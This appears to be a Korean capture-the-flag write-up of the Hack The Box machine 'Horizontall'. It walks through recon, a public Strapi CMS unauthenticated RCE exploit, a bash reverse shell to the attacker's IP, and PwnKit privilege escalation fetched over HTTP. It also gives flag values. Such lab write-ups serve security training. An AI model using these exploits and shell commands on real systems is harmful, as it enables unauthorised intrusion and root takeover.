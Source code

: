 # Horizontall
IP: 10.129.214.77


## 정보 수집

nmap을 사용해서 포트스캔 

```bash
nmap -Pn -p- -n --open --max-retries 1 --min-rate 2000 $ip
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
포트 스캔결과 22,80번 포트가 열려있는것 확인
![nmap](img/nmap.png)
```bash
nmap -sV -sC -oA nmap/Horizontall $ip -p 22,80 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

각 포트별 현재 사용중인 시스템 버전은  
- 22 ssh  OpenSSH 7.6p1  
- 80 http nginx 1.14.0

> |_http-title: Did not follow redirect to http://horizontall.htb


웹서버에서 리다이렉션 했으나 실패 로컬에 등록해야함

```bash
#/etc/hosts 에 아래줄 추가
10.129.214.77   horizontall.htb
```
![etchost](img/etchost.png)
웹페이지 접속해서 분석결과 정적인 페이지  
![webpage](img/webpage.png)

웹디렉토리 브루트 포싱 시도  

```bash
gobuster dir -u http://horizontall.htb/ -w /usr/share/wordlists/dirb/common.txt -x php,txt

/css                  (Status: 301) [Size: 194] [--> http://horizontall.htb/css/]
/favicon.ico          (Status: 200) [Size: 4286]
/img                  (Status: 301) [Size: 194] [--> http://horizontall.htb/img/]
/index.html           (Status: 200) [Size: 901]
/js                   (Status: 301) [Size: 194] [--> http://horizontall.htb/js/]
```
별다른 파일, 디렉토리 찾지 못함  
ffuf로 하위도메인 탐색 별다른 하위도메인 찾지 못함  

웹페이지 소스 다시한번 분석  
http://horizontall.htb/js/chunk-vendors.0e02b89e.js  
![js](img/js.png)

![subdomain](img/subdomain.png)
난독화되어있는 js코드 https://beautifier.io/ 에서 읽을 수 있게 바꾼 후 분석  

```bash
cat app.js | grep -i horizontall
                        href: "https://horizontall.htb"
                }, [t._v("Horizontall.htb")])])])])
                        r.a.get("http://api-prod.horizontall.htb/reviews").then((function(s) {
        t.exports = e.p + "img/horizontall.2db2bc37.png"
```

http://api-prod.horizontall.htb/ 하위도메인을 찾음

```bash
#/etc/hosts 에 아래줄 추가
10.129.214.77   api-prod.horizontall.htb
```

http://api-prod.horizontall.htb 접속
![welcome](img/welcome.png)
아무것도 없이 정적페이지 다시 웹디렉토리 탐색
```bash
gobuster dir -u http://api-prod.horizontall.htb/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
/admin                (Status: 200) [Size: 854]
/Admin                (Status: 200) [Size: 854]
/ADMIN                (Status: 200) [Size: 854]
/favicon.ico          (Status: 200) [Size: 1150]
/index.html           (Status: 200) [Size: 413]
/reviews              (Status: 200) [Size: 507]
/robots.txt           (Status: 200) [Size: 121]
/robots.txt           (Status: 200) [Size: 121]
/users                (Status: 403) [Size: 60]

```

/admin,/Admin,ADMIN 접속 시  
http://api-prod.horizontall.htb/admin/auth/login 로그인페이지로 리다이렉션됨
![strapi](img/strapi.png)
strapi CMS를 사용중이란것 확인

/reviews 에서 회원아이디로 추정되는 정보
![reviews](img/reviews.png)
## 취약점 & 익스플로잇 분석
```bash
searchsploit strapi  
![searchsploit](img/searchsploit.png)
Strapi 3.0.0-beta - Set Password (Unauthenticated)
Strapi 3.0.0-beta.17.7 - Remote Code Execution (RCE) (Authenticated)       
Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated) 
Strapi CMS 3.0.0-beta.17.4 - Set Password (Unauthenticated) (Metasploit) 
```
현재 버전을 확인하지 못했음 일단 인증이 필요없는 취약점 부터 사용

Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated) 

```bash
searchsploit -m 50239.py
python3 50239.py http://api-prod.horizontall.htb/  
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNzU0NDA3MDU5LCJleHAiOjE3NTY5OTkwNTl9.DcygFSCDGQ08l_ot68-V4geIePLvRPpaiDfFDeq264M

$> ls
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
{"statusCode":400,"error":"Bad Request","message":[{"messages":[{"id":"An error occurred"}]}]}
```
RCE exploit은 성공했으나 blind RCE라서 값이 출력은 되지않음
셸을 얻기 위해 리버스셸 코드 실행

bash -c 'exec bash -i &>/dev/tcp/10.10.14.74/9999 <&1'
![revshell](img/revshell.png)


```bash
# 셸 안정화
strapi@horizontall:~/myapi$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
strapi@horizontall:~/myapi$ ^Z
zsh: suspended  nc -nlvp 9999                                                                                                                                           
┌──(root㉿kali)-[~/Hack_The_Box/Horizontall]
└─# stty raw -echo;fg   
[1]  + continued  nc -nlvp 9999

strapi@horizontall:~/myapi$ 
```
/home/developer 디렉토리에서 user.txt 플래그를 찾음음

```bash
strapi@horizontall:/home/developer$ cat user.txt 
03c7fcc0f0124c56a4af687250c8250a
```

## Privilege-Escalation

setuid 탐색
```bash
strapi@horizontall:/tmp$ find / -perm -4000 -type f 2> /dev/null
/usr/bin/pkexec # 취약점 존재
```
![setuid](img/setuid.png)
https://github.com/ly4k/PwnKit 루트킷 설치

```bash
#kali linux
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
python3 -m http.server 7777 
#대상 호스트
wget http://10.10.14.74:7777/PwnKit
chmod +x PwnKit 
./PwnKit
id
uid=0(root) gid=0(root) groups=0(root),1001(strapi)  
```
![root](img/root.png)
루트권한을 얻음

```bash
cat /root/root.txt                   
e7931bd6e9f0a01d00e008d5cdd5e005 
```

# 취약점
- 취약한 버전의 Strapi CMS 3.0.0-beta.17.4 사용
- 잘못된 setuid 설정 /usr/bin/pkexec 권한상승 취약점이 존재하는 바이너리 파일이 setuid설정 되어있음음


